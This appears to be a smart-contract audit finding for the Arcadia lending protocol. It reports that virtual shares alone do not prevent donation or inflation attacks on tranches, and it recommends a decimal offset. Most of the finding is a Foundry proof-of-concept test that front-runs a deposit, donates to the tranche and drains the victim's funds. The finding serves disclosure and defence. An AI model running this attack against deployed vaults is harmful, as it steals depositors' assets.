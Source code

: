 Nice Quartz Whale

medium

# Donation attacks on Tranches can't be prevented by VAS alone


## Summary
To fully prevent donation attacks the shares of vault must be in higher precision. i.e decimal offset is also needed.

## Vulnerability Detail

Donations can be done via donateToTranche function in LendingPool.sol

Here is a foundry poc to show that VAS alone can't prevent inflation attacks
```solidity
/**
 * Created by Pragma Labs
 * SPDX-License-Identifier: BUSL-1.1
 */
pragma solidity 0.8.22;

import { Scenario_Lending_Test } from "./_Scenario.t.sol";

import { LogExpMath } from "../../src/libraries/LogExpMath.sol";

import { AccountErrors } from "../../lib/accounts-v2/src/libraries/Errors.sol";
import { AssetValuationLib } from "../../lib/accounts-v2/src/libraries/AssetValuationLib.sol";
import { Constants } from "../../lib/accounts-v2/test/utils/Constants.sol";
import { LendingPool } from "../../src/LendingPool.sol";
import { LendingPoolErrors } from "../../src/libraries/Errors.sol";
import { TrancheExtension } from "../utils/Extensions.sol";

contract SceanrioDonation is Scenario_Lending_Test {

    function setUp() public override{
        // super.setUp();
        deployArcadiaLendingWithoutAccounts();
    }


    // for donation attack poc
    function testDonationAttack2() public {
        uint vas = 1;
        uint assetAmt = 5e18;
        uint donationAmt = assetAmt;
        uint frontrunAmt = 1;
        // extraAmt minted for the while loop
        uint extraAmt = 100;
        address bob = address(12345);

        vm.startPrank(users.creatorAddress);
        TrancheExtension tranche1 = new TrancheExtension(address(pool), vas, "Tranche1", "T1");
        pool.addTranche(address(tranche1), 50);
        // minting the asset
        asset.mint(users.creatorAddress,assetAmt);
        asset.mint(bob,frontrunAmt + donationAmt + extraAmt);
        asset.approve(address(pool),type(uint256).max);

        vm.stopPrank();
        // frontrunning
        vm.startPrank(bob);
        asset.approve(address(pool),type(uint256).max);
        uint shares1 = tranche1.deposit(frontrunAmt, bob);
        
        // donating
        pool.donateToTranche(0,donationAmt);

        vm.stopPrank();
        vm.startPrank(users.creatorAddress);
        //deposting from user
        uint shares2=tranche1.deposit(assetAmt,users.creatorAddress);

        // withdrawals
        uint amt2 = tranche1.redeem(shares2,users.creatorAddress,users.creatorAddress);

        vm.stopPrank();
        vm.startPrank(bob);
        uint amt1 = tranche1.redeem(shares1, bob, bob);
        uint amtLeftOut;
        while (asset.balanceOf(address(pool)) > 100){
            uint shareWhile  = tranche1.deposit(1, bob);
            amtLeftOut += tranche1.redeem(shareWhile, bob, bob);
        }

        emit log_named_decimal_uint("amtBob", amt1, 18);
        emit log_named_decimal_uint("amtUser", amt2, 18);
        emit log_named_decimal_uint("sharesBob", shares1, 18);
        emit log_named_decimal_uint("sharesUser", shares2, 18);
        emit log_named_decimal_uint("assetsInPool", asset.balanceOf(address(pool)), 18);
        emit log_named_decimal_uint("realizedLiq", pool.liquidityOfAndSync(address(tranche1)), 18);
        emit log_named_decimal_uint("amtLeftOut", amtLeftOut, 18);
        emit log_named_decimal_uint("bobProfit", asset.balanceOf(bob) - donationAmt - frontrunAmt - extraAmt, 18);
        vm.stopPrank();
    }
    
}
```

add it as a new file under lending-v2/test/scenario.

and run the test using 
```bash
forge test --match-test testDonationAttack2 -vv
```

## Impact
Donation attacks 

## Code Snippet
https://github.com/sherlock-audit/2023-12-arcadia/blob/de7289bebb3729505a2462aa044b3960d8926d78/lending-v2/src/Tranche.sol#L350-L355

https://github.com/sherlock-audit/2023-12-arcadia/blob/de7289bebb3729505a2462aa044b3960d8926d78/lending-v2/src/LendingPool.sol#L350-L363


## Tool used

Manual Review

## Recommendation

https://ethereum-magicians.org/t/address-eip-4626-inflation-attacks-with-virtual-shares-and-assets/12677/10

